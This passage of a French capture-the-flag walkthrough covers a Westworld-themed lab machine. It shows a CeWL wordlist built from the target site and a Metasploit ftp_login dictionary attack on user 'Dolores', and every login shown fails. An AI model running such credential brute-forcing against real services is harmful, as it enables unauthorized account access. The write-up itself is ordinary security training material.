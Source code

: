 La seule lecture du contenu de la page (sans même regarder le code source !) nous donne le deuxième flag : _This world is just a speck of duct sitting on a much, much bigger world._ Est-ce volontaire ou une erreur de syntaxe dans les commentaires HTML ? Quoi qu'il en soit, un indice est également dévoilé dans l'article : _Dolores is a user and passwd is in this page. Use some tools to generate passwd maybe._

C'est là qu'intervient l'outil [__CeWL__](https://digi.ninja/projects/cewl.php) (_Custom Word List Generator_) créé par Robin Wood alias [DigiNinja](https://digi.ninja/about.php). CeWL peut extraire un ensemble de mots-clés dans une page Web donnée, et générer par la même occasion un dictionnaire de mots de passe. Ici, 84 mots de huit lettres ou plus ont été récupérés et stockés dans le fichier ```dicoWWorld8-X.txt```.

```console
root@blinils:~# cewl -d 1 -m 8 -w dicoWWorld8-X.txt http://192.168.56.101
CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

root@blinils:~# wc -l dicoWWorld8-X.txt
84 dicoWWorld.txt

root@blinils:~# head -n 5 dicoWWorld8-X.txt
Westworld
narrative
flowchart
Abernathy
Facebook
```

Le module [__ftp_login__](https://www.offensive-security.com/metasploit-unleashed/scanner-ftp-auxiliary-modules/) du framework Metasploit est en mesure d'automatiser cette [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking). Malheureusement, aucun de ces quatre-vingt-quatre mots de passe n'est celui de Dolores.

```console
root@blinils:~# msfconsole --quiet
msf5 > use auxiliary/scanner/ftp/ftp_login
msf5 auxiliary(scanner/ftp/ftp_login) > set BRUTEFORCE_SPEED 1
BRUTEFORCE_SPEED => 1
msf5 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE dicoWWorld8-X.txt
PASS_FILE => dicoWWorld.txt
msf5 auxiliary(scanner/ftp/ftp_login) > set USERNAME Dolores
USERNAME => Dolores
msf5 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 auxiliary(scanner/ftp/ftp_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ftp/ftp_login) > run

[*] 192.168.56.101:21     - 192.168.56.101:21 - Starting FTP login sweep
[!] 192.168.56.101:21     - No active DB -- Credential data will not be saved!
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Westworld (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:narrative (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:flowchart (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Abernathy (Incorrect: )
--snip--
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Sweetwater (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Bernathy (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Pinterest (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Collapse (Incorrect: )
[*] 192.168.56.101:21     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
